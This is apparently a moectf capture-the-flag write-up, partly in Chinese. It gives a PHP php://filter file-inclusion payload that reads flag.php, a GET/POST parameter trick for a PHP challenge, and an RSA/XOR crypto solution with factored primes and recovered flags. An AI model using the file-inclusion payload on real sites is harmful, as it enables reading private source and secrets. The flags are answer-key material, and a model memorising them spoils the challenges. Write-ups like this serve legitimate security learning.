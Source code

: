 ## baby_file

payload:`?file=php://filter/convert.base64-encode/resource=flag.php`

```php
<?php
Hey hey, reach the highest city in the world! Actually I am ikun!!;
moectf{Y0u_are_t00_baby_la};
?>
```

## ezphp

![1661692649841.png](https://cdn.liil.cc/2022/08/28/630b6af058e9c.png)

payload:

GET: `giveme=flag&flag=giveme`

POST: `flag=$giveme`

`moectf{Wan0g_Yi1g_Chu0}`

# Crypto

说实话从0开始学密码学确实相比其他部分来讲痛苦太多了。

于是找了找看有没有能做的题，慢慢来咯。

## 一次就好

仔细研究了下，其实这道似乎是比较正常的简单题。

给了n e c 求 m. 那么目标是先分解 N 得到 p,q.  使用在线工具就可以了。顺手算一下d

接下来就好办了，已知`key = strxor(flag.encode(), c)` 

那么这一步的逆向方法是 `msg=strxor(c,key)`

```python
crypto = 127749242340004016446001520961422059381052911692861305057396462507126566256652316418648339729479729456613704261614569202080544183416817827900318057127539938899577580150210279291202882125162360563285794285643498788533366420857232908632854569967831654923280152015070999912426044356353393293132914925252494215314
N = 164395171965189899201846744244839588935095288852148507114700855000512464673975991783671493756953831066569435489213778701866548078207835105414442567008315975881952023037557292470005621852113709605286462434049311321175270134326956812936961821511753256992797013020030263567313257339785161436188882721736453384403

p=12821668064849826676074701213910298504451620184307130249376361333490782040849300923713647818247010549622664747770828229853003308659470956068108542842690393
q=12821668064849826676074701213910298504451620184307130249376361333490782040849300923713647818247010549622664747770828229853003308659470956068108542842690571
d = 105494657249615124293648880418099298903739375741427859304146652393328230073526928459558544660915976003412487280992030106439103803608781500424337345287421389493495735389457682135637699745021382802466553575614359848312291960153737214222158032304698209920162981491266433689104734041346213344207132627364583352193

m = 23509113917433969361844992588522336728834624213530516390210963742924904254640889821566186341742563884273817964359

kk = long_to_bytes(m)
print(len(kk))
print(kk)
print(strxor(c,kk))
#moectf{W0w_y02_k5ow_w6at_1s_one_t1m3_pa7}######'
```